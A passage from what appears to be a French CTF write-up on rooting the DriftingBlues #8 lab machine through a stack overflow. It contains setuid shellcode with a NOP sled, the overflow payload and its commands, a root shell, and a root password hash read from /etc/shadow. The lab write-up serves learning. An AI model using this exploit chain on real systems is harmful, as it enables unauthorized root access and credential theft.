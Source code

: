 ![DriftingBlues #8 CTF stack overflow exploitation](https://github.com/devl00p/blog/raw/master/images/hackmyvm/drifting_blues_8_stack_overflow.png)  

Pour avoir l'adresse mémoire des variables d'environnement j'ai écrit un code C qui peut se résumer à :  

```c
printf("%s: %p\n", argv[1], getenv(argv[1]));
```

Je me suis basé sur [un shellcode qui rajoute le bit setuid sur /bin/sh](https://www.exploit-db.com/shellcodes/43671).  

```plain
clapton@driftingblues:~$ export SHELLCODE=`python -c "print '\x90' *100 + '\x31\xC0\x31\xDB\x31\xC9\x53\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\x66\xB9\xFE\x10\x66\x81\xE9\x01\x07\xB0\x0F\xCD\x80\xB0\x0
1\xCD\x80'"` 
clapton@driftingblues:~$ ./mygetenv SHELLCODE 
SHELLCODE: 0xbffffde5 
clapton@driftingblues:~$ export ADDRESS=`python -c "print '\xef\xfd\xff\xbf'*30 " `    
clapton@driftingblues:~$ ./mygetenv ADDRESS                                      
ADDRESS: 0xbffffefc 
clapton@driftingblues:~$ ./waytoroot `python -c "print '\x04\xff\xff\xbf' * 30"`    
hahaha silly hacker! 
clapton@driftingblues:~$ ls -l /bin/dash         
-rwsrwxr-x 1 root root 132820 Jan 17  2019 /bin/dash 
clapton@driftingblues:~$ /bin/dash -p 
# id 
uid=1000(clapton) gid=1000(clapton) euid=0(root) groups=1000(clapton) 
# head -1 /etc/shadow 
root:$6$sqBC8Bk02qmul3ER$kysvb1LR5uywwKRc/KQcmOMALcqd0NhHnU1Wbr9NRs9iz7WHwWqGkxKYRhadI3FWo3csX1BdQPHg33gwGVgMp.:18742:0:99999:7:::

```